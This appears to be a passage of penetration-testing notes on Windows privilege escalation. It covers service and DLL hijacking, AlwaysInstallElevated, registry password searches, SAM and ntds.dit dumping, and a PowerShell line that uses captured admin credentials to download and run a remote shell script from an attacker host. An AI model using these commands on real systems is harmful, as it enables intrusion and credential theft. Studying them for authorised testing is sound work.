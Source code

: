 ```
NT AUTHORITY/INTERACTIVE GROUP = all local logged on users \
Inspect the ImagePath with ```reg query``` command \
Modify the ImagePath with ```reg add <original imagepath> \v ImagePath \t REG_EXPAND_SZ \d <new path to payload> \f ``` => restart the service. \

**DLL Hijack** \
If a DLL is loaded with an absolute path by a service with SYSTEM privilege => potential privilege escalation vector if the DLL is writable. \
Monitor a process with ProcMon to see what DLLs are loaded by the process at run-time, look for missing DLLs for any DLL that are writable. \
Replace or add a custom DLL (generated with msfvenom) in the location (if writable) => restart the service. \


**Check for Auto run program** \
See if the exe and path is writable -> replace the exe with our payload. \

**Check for AlwaysInstallElevated** \
If AlwaysInstallElevated is detected, and both HKLM(HKCU)\SOFTWARE\Policies\Microsoft\Windows\Installer is set to 1: \
We can craft a .msi payload and install it on the target Windows machine with SYSTEM privilege. \

**Query for password in registry hive** \
Check if the password is saved anywhere within the HKLM or HKCU hive: \
```reg query HKCU /f password /t REG_SZ /s ``` \
```reg query HKLM /f password /t REG_SZ /s``` \
or try with just 'pass': \
```reg query HKCU /f pass /t REG_SZ /s ``` \
```reg query HKLM /f pass /t REG_SZ /s``` 

**Check for saved credentials** \
If saved creds is found during enum -> ```runas /savecred /user:$USERNAME "$COMMAND"``` to run the command under the saved cred's privilege level. 


**Check if SAM and SYSTEM registry hive are accessible** \
If SAM and SYSTEM reg hive are accessible at C:\Windows\System32\config -> can extract the usernames and hashes with secretdump.py \
Backups of these might be in C:\Windows\Repair or C:\Windows\System32\config\RegBack \
If we can grab ntds.dit file => we can dump the whole AD database as well.


**Check for any current scheduled task** \
Check for any current scheduled tasks: ```schtasks /query /fo LIST /v ``` \
Or ```Get-ScheduledTask | ft TaskName,TaskPath,State``` \
Users cannot see tasks being run by other users with high priv, so we need to enumerate to find any scripts or tasks that are being run as SYSTEM and.
If the task/script target has weak permission -> we can exploit this.


**If autologon credential is captured. We can try to log in as admin:**

```$newPass = ConvertTo-SecureString '$FOUNDPASSWORD' -AsPlainText -Force```

```$newCred = New-Object System.Management.Automation.PSCredential('Administrator', $newPass)```

Set up a new listener on local Kali, and get a new PowerShell session from remote Windows machine with:

```Start-Process -FilePath “powershell” -argumentlist “IEX(New-Object Net.WebClient).downloadString(‘$LHOST/shell.ps1’)” -Credential $newCred```


**Privilege Escalate by abusing Access Token** with ```whoami /priv```

```